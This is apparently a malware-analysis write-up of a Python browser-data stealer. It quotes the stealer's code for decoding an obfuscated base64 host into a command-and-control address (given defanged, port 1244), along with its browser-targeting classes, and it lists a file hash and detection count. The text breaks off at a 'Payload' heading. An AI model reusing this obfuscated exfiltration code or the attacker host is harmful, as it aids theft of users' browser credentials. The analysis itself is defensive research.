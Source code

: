 > sha256: b97e7fbd85d3e487c614a9f1319eef27141ab1e89c72e8e656606e0c4fb92379

> [Virustotal](https://www.virustotal.com/gui/file/b97e7fbd85d3e487c614a9f1319eef27141ab1e89c72e8e656606e0c4fb92379): 2/60


We can see at the beginning a URL being set for data exfiltration:

```py
host="4yMTIuODk=MTQ3LjEyNC"
ts = int(time.time()*1000)
hn = socket.gethostname()

host1 = base64.b64decode(host[10:] + host[:10]).decode()
host2 = f'http://{host1}:1244'
```
As we can see time and time again, this is not that complicated, not that advanced. `host2` will be: **hxxp[://]147[.]124[.]212[.]89:1244**

Here we can see how discriminating this malware is against Firefox users >:(      :

```py
class Chrome(BrowserVersion):base_name = "chrome";v_w = ["chrome", "chrome dev", "chrome beta", "chrome canary"];v_l = ["google-chrome", "google-chrome-unstable", "google-chrome-beta"];v_m = ["chrome", "chrome dev", "chrome beta", "chrome canary"]
class Brave(BrowserVersion):base_name = "brave";v_w = ["Brave-Browser", "Brave-Browser-Beta", "Brave-Browser-Nightly"];v_l = ["Brave-Browser", "Brave-Browser-Beta", "Brave-Browser-Nightly"];v_m = ["Brave-Browser", "Brave-Browser-Beta", "Brave-Browser-Nightly"]
class Opera(BrowserVersion):base_name = "opera";v_w = ["Opera Stable", "Opera Next", "Opera Developer"];v_l = ["opera", "opera-beta", "opera-developer"];v_m = ["com.operasoftware.Opera", "com.operasoftware.OperaNext", "com.operasoftware.OperaDeveloper"]
class Yandex(BrowserVersion):base_name = "yandex";v_w = ["YandexBrowser"];v_l = ["YandexBrowser"];v_m = ["YandexBrowser"]
class MsEdge(BrowserVersion):base_name = "msedge";v_w = ["Edge"];v_l = [];v_m = []
```

Priorities, am I right? :
```py
def pretty_print(self) -> str:
    o = ""
    for dict_ in self.values:
        for val in dict_:o += f"{val} : {dict_[val]}\n"
        o += '-' * 50 + '\n'

    for dict_ in self.webs:
        for val in dict_:o += f"{val} : {dict_[val]}\n"
        o += '-' * 50 + '\n'

    return o
```

This script basically handles browser data exfil to a remote server, and that is its only job. I do not understand why it couldn't be added to the other file, but whatever-

### Payload
